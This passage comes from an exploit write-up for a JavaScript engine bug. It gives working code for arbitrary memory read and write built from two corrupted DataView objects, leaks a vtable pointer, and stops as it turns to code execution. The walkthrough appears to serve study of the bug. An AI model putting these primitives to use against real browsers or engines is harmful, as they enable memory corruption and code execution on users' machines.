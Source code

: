 ## Arbitrary address read and write

Here we set `dv1->buffer` to any address that we need

```javascript
    let read64 = function(addr_lo, addr_hi) {
        // dv2->buffer = addr (Step 4)
        // chqmatteo: 0x38 = 7 * 8, we are writing at ((void*)dv1->buffer)[7] which is dv2->buffer
        dv1.setUint32(0x38, addr_lo, true);
        dv1.setUint32(0x3C, addr_hi, true);
        
        // read from addr (Step 5)
        return dv2.getInt32(0, true) + dv2.getInt32(4, true) * BASE;
    }
    let read3232 = function(addr_lo, addr_hi) {
        // dv2->buffer = addr (Step 4)
        dv1.setUint32(0x38, addr_lo, true);
        dv1.setUint32(0x3C, addr_hi, true);
        
        // read from addr (Step 5)
        return [dv2.getInt32(0, true), dv2.getInt32(4, true)];
    }
    
    let write64 = function(addr_lo, addr_hi, value_lo, value_hi) {
        // dv2->buffer = addr (Step 4)
        dv1.setUint32(0x38, addr_lo, true);
        dv1.setUint32(0x3C, addr_hi, true);
        
        // write to addr (Step 5)
        dv2.setInt32(0, value_lo, true);
        dv2.setInt32(4, value_hi, true);
    }
    
    // chqmatteo: the first value of the object is the pointer to the vtable
    vtable_lo = dv1.getUint32(0, true);
    vtable_hi = dv1.getUint32(4, true);
    print(hex(vtable_lo + vtable_hi * BASE));
    
    // chqmatteo: demonstrate arbitrary read
    print(hex(read64(vtable_lo, vtable_hi)));
```

This is basically where Perception Point blog post ends

## Code execution

Now we can:

1. read and write any address we want using from `dv2`
2. plus we can read and write everything in the metadata of `dv2` using `dv1`.

One thing that is useful from the metadata of `dv2` is the `vtable` pointer. 
